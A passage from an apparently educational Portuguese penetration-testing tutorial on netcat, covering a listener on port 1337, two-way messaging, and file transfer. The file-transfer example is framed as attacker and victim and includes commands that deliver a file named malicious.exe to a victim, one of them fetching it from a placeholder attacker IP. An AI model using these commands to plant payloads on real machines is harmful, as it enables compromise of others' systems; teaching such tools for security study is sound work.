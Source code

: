 O comando final ficará assim:

```sh
nc -nlvp 1337
```

![d2b31f0cc7459f38fdd85d370f8abb33.png](../img/pentest-0x00/cb3f4de66693490bafdbb20009da451d.png)

Acima especificamos a porta TCP 1337 como "bind" do nosso servidor. Toda comunicação para o servidor do netcat deverá acontecer por ela.

Vamos, agora, conectar um outro terminal (ou outro host) e executar o netcat como cliente:

![e0da6b28812093926c01e896e746c404.png](../img/pentest-0x00/edfb06174e374804b1e4c8958c9bb44b.png)

Logo em seguida, no servidor nos é informado que há uma conexão estabelecida com nossa sessão:

![cf173adc2e8945c758e17d7e676451c0.png](../img/pentest-0x00/c56126136c2b4a6fbaf687257bfc07ac.png)

A partir de agora, é possível enviar e receber dados de qualquer um dos lados:

Envio de mensagem pelo servidor:
![507f9b49e75d484a33b347787f113680.png](../img/pentest-0x00/0d164c622d7644c2bc9d3ea5aaa0ecc0.png)

Recebimento da mensagem pelo cliente:
![7bbdd15559a4ad062d2630e45e23ca7d.png](../img/pentest-0x00/47b8213bbb1e415097416b1bedef57f2.png)


### Exemplo 5 - Enviando e recebendo arquivos
Como estamos utilizando uma shell para invocar o netcat, podemos redirecionar a entrada e saída padrão para que sejam arquivos. Dessa forma, podemos utilizar a ferramenta para envio de arquivos para um host remoto.

Por exemplo, para repassarmos um arquivo malicious.exe para uma vítima, faríamos:

Vítima:
```sh
nc -lvp 1337 > malicious.exe
```

Atacante:
```sh
nc ip_da_vitima 1337 < malicious.exe
```


Note que a vítima está utilizando o netcat como servidor e o atacante como cliente, mas também é possível realizar o processo contrário, como nos comandos a seguir:

Atacante:
```sh
nc -lvp 1337 < malicious.exe
```

Vítima:
```sh
nc ip_do_atacante 1337 > malicious.exe
```
